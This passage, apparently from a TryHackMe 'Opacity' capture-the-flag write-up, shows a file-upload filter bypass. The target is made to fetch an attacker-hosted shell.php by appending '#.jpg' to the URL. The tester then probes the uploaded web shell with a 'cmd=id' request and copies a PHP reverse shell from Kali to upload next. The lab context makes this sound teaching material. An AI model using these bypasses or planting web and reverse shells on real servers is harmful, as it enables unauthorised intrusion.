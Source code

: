 Since the server accepts .jpg files, let's try bypassing the restriction by using the same PHP shell path but tricking the server into thinking it's a .jpg by appending `#`.

```bash
  http://10.10.95.60:8080/shell.php#.jpg
```

![alt text](../assets/img/posts/2025-02-27-thm-writeup-opacity/image-4.png)

When sending we get a hit on our server and php file is uploaded

![alt text](../assets/img/posts/2025-02-27-thm-writeup-opacity/image-5.png)

However, accessing `/cloud/images/shell.php?cmd=id` doesn’t produce any results.

Let's try uploading a reverse shell and listening for a connection. This will help us determine if the server executes the fetched file (e.g., via `exec` or a similar function) that is being fetched via `wget`.

```bash
┌──(root㉿kali)-[~]
└─# cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```
